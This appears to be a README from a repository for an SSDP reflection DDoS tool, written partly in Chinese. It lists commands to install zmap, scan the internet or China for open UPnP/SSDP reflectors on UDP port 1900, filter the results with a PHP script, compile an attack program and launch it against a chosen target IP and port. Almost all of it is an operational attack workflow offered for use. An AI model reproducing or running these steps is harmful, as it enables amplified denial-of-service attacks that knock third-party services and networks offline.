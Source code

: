 # SSDP
yum -y install gcc+ gcc-c++<br>
yum -y install gcc libcap libpcap libpcap-devel screen php dstat cmake gmp gmp-devel gengetopt byacc flex git json-c cpan vnstat zmap<br>
yum install cmake gmp-devel gengetopt libpcap-devel flex byacc json-c-devel libunistring-devel<br>
wget ftp://ftp.gnu.org/gnu/gengetopt/gengetopt-2.22.6.tar.gz<br>
tar -zvxf gengetopt-2.22.6.tar.gz<br>
cd gengetopt-2.22.6<br>
./configure<br>
make<br>
make install<br>
安装zmap<br>
yum install git<br>
git clone https://github.com/zmap/zmap<br>
cd zmap/<br>
cmake .<br>
make -j4<br>
make install<br>
安装完成！<br>
扫描全球：screen zmap -M udp -p 1900 --probe-args=file:upnp_1900.pkt -o ssdp.txt<br>
扫描国内：screen zmap -M udp -p 1900 -w cn.txt -B 100M --probe-args=file:upnp_1900.pkt -o ssdpscan.txt<br>
扫描完成后,我们开始执行过滤!<br>
过滤 ： php ssdpfilter.php ssdp.txt ssdpfiltered.txt 200 1000  <br>
200处理个数  1000线程<br>
全自动：screen ./scan 1<br>
自动过滤跟扫描，到时候表完成过后是ssdp.txt<br>
编译攻击脚本：<br>
gcc -pthread ssdp.c -o ssdp<br>
攻击：<br>
```./ssdp <target IP> <target port> <reflection file>  <time (optional)>```
